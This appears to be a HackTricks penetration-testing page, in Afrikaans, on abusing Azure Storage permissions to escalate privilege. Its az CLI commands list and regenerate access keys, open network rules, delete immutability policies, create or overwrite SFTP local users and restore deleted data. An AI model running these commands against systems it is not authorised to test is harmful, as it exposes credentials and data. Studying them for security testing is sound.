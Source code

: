 # Az - Storage Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Storage Privesc

Vir meer inligting oor berging, kyk:

{{#ref}}
../az-services/az-storage.md
{{#endref}}

### `Microsoft.Storage/storageAccounts/listkeys/action`

'n Hoofpersoon met hierdie toestemming sal in staat wees om die **toegang sleutels** van die berging rekeninge te lys (en die geheime waardes). Dit stel die hoofpersoon in staat om sy of haar voorregte oor die berging rekeninge te verhoog.
```bash
az storage account keys list --account-name <acc-name>
```
### `Microsoft.Storage/storageAccounts/regenerateKey/action`

'n Hoofpersoon met hierdie toestemming sal in staat wees om die nuwe geheime waarde van die **toegang sleutels** van die stoor rekeninge te hernu en te verkry. Dit stel die hoofpersoon in staat om sy/haar voorregte oor die stoor rekeninge te verhoog.

Boonop sal die gebruiker in die antwoord die waarde van die hernude sleutel en ook van die nie-hernuede sleutel ontvang:
```bash
az storage account keys renew --account-name <acc-name> --key key2
```
### `Microsoft.Storage/storageAccounts/write`

'n Hoofpersoon met hierdie toestemming sal in staat wees om 'n bestaande stoorrekening te skep of op te dateer deur enige instelling soos netwerkreëls of beleide op te dateer.
```bash
# e.g. set default action to allow so network restrictions are avoided
az storage account update --name <acc-name> --default-action Allow

# e.g. allow an IP address
az storage account update --name <acc-name> --add networkRuleSet.ipRules value=<ip-address>
```
## Blobs Spesifieke privesc

### `Microsoft.Storage/storageAccounts/blobServices/containers/immutabilityPolicies/write` | `Microsoft.Storage/storageAccounts/blobServices/containers/immutabilityPolicies/delete`

Die eerste toestemming laat toe om **immutability policies** in houers te **wysig** en die tweede om hulle te verwyder.

> [!NOTE]
> Let daarop dat as 'n immutability policy in 'n vergrendeltoestand is, jy nie een van beide kan doen nie.
```bash
az storage container immutability-policy delete \
--account-name <STORAGE_ACCOUNT_NAME> \
--container-name <CONTAINER_NAME> \
--resource-group <RESOURCE_GROUP>

az storage container immutability-policy update \
--account-name <STORAGE_ACCOUNT_NAME> \
--container-name <CONTAINER_NAME> \
--resource-group <RESOURCE_GROUP> \
--period <NEW_RETENTION_PERIOD_IN_DAYS>
```
## Lêer gedeeltes spesifieke privesc

### `Microsoft.Storage/storageAccounts/fileServices/takeOwnership/action`

Dit behoort 'n gebruiker met hierdie toestemming in staat te stel om die eienaarskap van lêers binne die gedeelde lêerstelsel te neem.

### `Microsoft.Storage/storageAccounts/fileServices/fileshares/files/modifypermissions/action`

Dit behoort 'n gebruiker met hierdie toestemming in staat te stel om die toestemmings van lêers binne die gedeelde lêerstelsel te wysig.

### `Microsoft.Storage/storageAccounts/fileServices/fileshares/files/actassuperuser/action`

Dit behoort 'n gebruiker met hierdie toestemming in staat te stel om aksies binne 'n lêerstelsel as 'n supergebruiker uit te voer.

### `Microsoft.Storage/storageAccounts/localusers/write (Microsoft.Storage/storageAccounts/localusers/read)`

Met hierdie toestemming kan 'n aanvaller 'n nuwe plaaslike gebruiker vir 'n Azure Storage-rekening (gekonfigureer met hiërargiese naamruimte) skep en opdateer (indien hy die `Microsoft.Storage/storageAccounts/localusers/read` toestemming het), insluitend die spesifisering van die gebruiker se toestemmings en tuisgids. Hierdie toestemming is belangrik omdat dit die aanvaller in staat stel om hulself toegang tot 'n stoorrekening met spesifieke toestemmings soos lees (r), skryf (w), verwyder (d), en lys (l) en meer te verleen. Boonop kan die verifikasiemetodes wat dit gebruik Azure-gegeneerde wagwoorde en SSH-sleutelpaar wees. Daar is geen kontrole of 'n gebruiker reeds bestaan nie, so jy kan ander gebruikers wat reeds daar is, oorskryf. Die aanvaller kan hul bevoegdhede opgradeer en SSH-toegang tot die stoorrekening verkry, wat moontlik sensitiewe data blootstel of in gevaar stel.
```bash
az storage account local-user create \
--account-name <STORAGE_ACCOUNT_NAME> \
--resource-group <RESOURCE_GROUP_NAME> \
--name <LOCAL_USER_NAME> \
--permission-scope permissions=rwdl service=blob resource-name=<CONTAINER_NAME> \
--home-directory <HOME_DIRECTORY> \
--has-ssh-key false/true # Depends on the auth method to use
```
### `Microsoft.Storage/storageAccounts/localusers/regeneratePassword/action`

Met hierdie toestemming kan 'n aanvaller die wagwoord vir 'n plaaslike gebruiker in 'n Azure Storage-rekening hernu. Dit gee die aanvaller die vermoë om nuwe verifikasiekredens (soos 'n SSH of SFTP-wagwoord) vir die gebruiker te verkry. Deur hierdie kredensiale te benut, kan die aanvaller ongeoorloofde toegang tot die opslagrekening verkry, lêer oordragte uitvoer, of data binne die opslaghouers manipuleer. Dit kan lei tot datalek, korrupsie, of kwaadwillige wysiging van die inhoud van die opslagrekening.
```bash
az storage account local-user regenerate-password \
--account-name <STORAGE_ACCOUNT_NAME> \
--resource-group <RESOURCE_GROUP_NAME> \
--name <LOCAL_USER_NAME>
```
Om toegang te verkry tot Azure Blob Storage via SFTP (is_hns_enabled moet waar wees) met 'n plaaslike gebruiker via SFTP kan jy (jy kan ook 'n ssh-sleutel gebruik om te verbind):
```bash
sftp <storage-account-name>.<local-user-name>@<storage-account-name>.blob.core.windows.net
#regenerated-password
```
### `Microsoft.Storage/storageAccounts/restoreBlobRanges/action`, `Microsoft.Storage/storageAccounts/blobServices/containers/read`, `Microsoft.Storage/storageAccounts/read` && `Microsoft.Storage/storageAccounts/listKeys/action`

Met hierdie toestemmings kan 'n aanvaller 'n verwyderde houer herstel deur sy verwyderde weergawe-ID te spesifiseer of spesifieke blobs binne 'n houer te onttrek, indien hulle voorheen sag-verwyder was. Hierdie voorregverhoging kan 'n aanvaller in staat stel om sensitiewe data te herstel wat bedoel was om permanent verwyder te word, wat moontlik kan lei tot ongemagtigde toegang.
```bash
#Restore the soft deleted container
az storage container restore \
--account-name <STORAGE_ACCOUNT_NAME> \
--name <CONTAINER_NAME> \
--deleted-version <VERSION>

#Restore the soft deleted blob
az storage blob undelete \
--account-name <STORAGE_ACCOUNT_NAME> \
--container-name <CONTAINER_NAME> \
--name "fileName.txt"
```
### `Microsoft.Storage/storageAccounts/fileServices/shares/restore/action` && `Microsoft.Storage/storageAccounts/read`

Met hierdie toestemmings kan 'n aanvaller 'n verwyderde Azure-lêerdeling herstel deur sy verwyderde weergawe-ID te spesifiseer. Hierdie privilige-eskalasie kan 'n aanvaller in staat stel om sensitiewe data te herstel wat bedoel was om permanent verwyder te word, wat moontlik tot ongeoorloofde toegang kan lei.
```bash
az storage share-rm restore \
--storage-account <STORAGE_ACCOUNT_NAME> \
--name <FILE_SHARE_NAME> \
--deleted-version <VERSION>
```
## Ander interessante lykende toestemmings (TODO)

- Microsoft.Storage/storageAccounts/blobServices/containers/blobs/manageOwnership/action: Verander eienaarskap van die blob
- Microsoft.Storage/storageAccounts/blobServices/containers/blobs/modifyPermissions/action: Wysig toestemmings van die blob
- Microsoft.Storage/storageAccounts/blobServices/containers/blobs/runAsSuperUser/action: Gee die resultaat van die blob opdrag
- Microsoft.Storage/storageAccounts/blobServices/containers/blobs/immutableStorage/runAsSuperUser/action

## Verwysings

- [https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/storage#microsoftstorage](https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/storage#microsoftstorage)
- [https://learn.microsoft.com/en-us/azure/storage/blobs/secure-file-transfer-protocol-support](https://learn.microsoft.com/en-us/azure/storage/blobs/secure-file-transfer-protocol-support)

{{#include ../../../banners/hacktricks-training.md}}
